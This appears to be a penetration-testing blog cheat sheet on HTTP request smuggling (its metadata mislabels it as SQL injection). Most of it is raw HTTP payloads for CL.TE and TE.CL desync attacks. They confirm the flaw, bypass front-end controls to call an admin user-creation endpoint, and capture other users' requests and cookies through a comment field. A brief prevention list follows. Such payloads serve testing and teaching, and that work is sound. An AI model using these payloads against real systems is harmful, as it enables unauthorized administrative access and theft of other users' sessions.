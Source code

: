 ```yaml
---
title: "HTTP request smuggling"
subtitle: ""
date: 2020-03-04T15:58:26+08:00
lastmod: 2020-03-04T15:58:26+08:00
draft: false
author: "Hato0"
description: "SQL injection cheatsheet"

tags: ["web", "penetest", "HTTPRS"]
categories: ["Penetest - Web"]

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: false
ruby: false
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false
toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
share:
  enable: true
comment:
  enable: true
---
```

# HTTP request smuggling

HTTP request smuggling is a technique for interfering with the way a web site processes sequences of HTTP requests that are received from one or more users. Request smuggling vulnerabilities are often critical in nature, allowing an attacker to bypass security controls, gain unauthorized access to sensitive data, and directly compromise other application users.

HTTP request smuggling is an attack based on bad request handling between front and backend. The front end receive the user packet and transfer data or request to the backend. In that way you can chunk your original request and perform a double request in one paquet send. In that way you can bypass some protections.  

Different types of HTTP request smuggling exist, they are :

-   CL.TE: the front-end server uses the `Content-Length` header and the back-end server uses the `Transfer-Encoding` header.
-   TE.CL: the front-end server uses the `Transfer-Encoding` header and the back-end server uses the `Content-Length` header.
-   TE.TE: the front-end and back-end servers both support the `Transfer-Encoding` header, but one of the servers can be induced not to process it by obfuscating the header in some way.

## Basics

- Basic CL.TE vulnerability

	You have to send a chunk request passing low content length to perform double requests in one, Here is an example:
	
	{{< highlight http "lineNos=false" >}}
	POST / HTTP/1.1  
	Host: WEBSITE  
	Connection: keep-alive  
	Content-Type: application/x-www-form-urlencoded  
	Content-Length: 6  
	Transfer-Encoding: chunked  

	0  

	G
	{{< /highlight >}}
	
	
- Basic TE.CL vulnerability

	Same as previous with a well formed double request, here is an example:
	
	{{< highlight http "lineNos=false" >}}
	POST / HTTP/1.1  
	Host: WEBSITE  
	Content-Type: application/x-www-form-urlencoded  
	Content-length: 4  
	Transfer-Encoding: chunked  

	5c  
	GPOST / HTTP/1.1  
	Content-Type: application/x-www-form-urlencoded  
	Content-Length: 15  

	x=1  
	0

	{{< /highlight >}}
	
	
## Confirming vulnerabilities

- Confirming a CL.TE vulnerability via differential responses

	Using same technique as previous you can target a page you are sure about the response like 404, home or whatever. The request should return the page on the second header. Here is an example
	
	{{< highlight http "lineNos=false" >}}
	POST / HTTP/1.1  
	Host: WEBSITE 
	Content-Type: application/x-www-form-urlencoded  
	Content-Length: 35  
	Transfer-Encoding: chunked  

	0  

	GET /404 HTTP/1.1  
	X-Ignore: X

	{{< /highlight >}}
	
- Confirming a TE.CL vulnerability via differential responses

	Same thing as before just a different way to do it.  Here is an example:
	
	{{< highlight http "lineNos=false" >}}
	POST / HTTP/1.1  
	Host: WEBSITE
	Content-Type: application/x-www-form-urlencoded  
	Content-length: 4  
	Transfer-Encoding: chunked  

	5e  
	POST /404 HTTP/1.1  
	Content-Type: application/x-www-form-urlencoded  
	Content-Length: 15  

	x=1  
	0

	{{< /highlight >}}
	
	
## Bypass front-end protections
- Bypass front-end security controls, CL.TE vulnerability

	Here is an example of how you can bypass the front to make the back do what you want (that's an example and you really have to adapt it):
	
	{{< highlight http "lineNos=false" >}}
POST / HTTP/1.1  
Host: WEBSITE
Content-Type: application/x-www-form-urlencoded  
Content-Length: 139  
Transfer-Encoding: chunked  
    
0  
    
GET /admin/add?username=test&password=test HTTP/1.1  
Host: localhost  
Content-Type: application/x-www-form-urlencoded  
Content-Length: 10  
    
x=
	{{< /highlight >}}
	
	
- Bypass front-end security controls, TE.CL vulnerability

	Same thing as before, just the necessary change:
	
	{{< highlight http "lineNos=false" >}}
	POST / HTTP/1.1  
	Host: WEBSITE  
	Content-length: 4  
	Transfer-Encoding: chunked  

	87  
	GET /admin/add?username=test&password=test HTTP/1.1  
	Host: localhost  
	Content-Type: application/x-www-form-urlencoded  
	Content-Length: 15  

	x=1  
	0

	{{< /highlight >}}

## Advanced

- Exploiting HTTP request smuggling to capture other users' requests

	You need to be able to have a field that is at the end of your post data and to be able to update a site field or comment or post or ... In that way you will catch the other user requests by redirect it back to your data in your post request. Here is an example: 
	
	{{< highlight http "lineNos=false" >}}
	GET / HTTP/1.1  
	Host: WEBSITE 
	Transfer-Encoding: chunked  
	Content-Length: 324  

	0  

	POST /post/comment HTTP/1.1  
	Host: WEBSITE  
	Content-Type: application/x-www-form-urlencoded  
	Content-Length: 400  
	Cookie: session=YOURCOOKIE

	csrf=CSRFTOKEN&postId=2&name=YOURNAME&email=EMAIL&comment=
	
	
	{{< /highlight >}}


## How to prevent them

How can implement a rejection of wierd / malformed request or also do these following actions :

-   Disable reuse of back-end connections, so that each back-end request is sent over a separate network connection.
-   Use HTTP/2 for back-end connections, as this protocol prevents ambiguity about the boundaries between requests.
-   Use exactly the same web server software for the front-end and back-end servers, so that they agree about the boundaries between requests.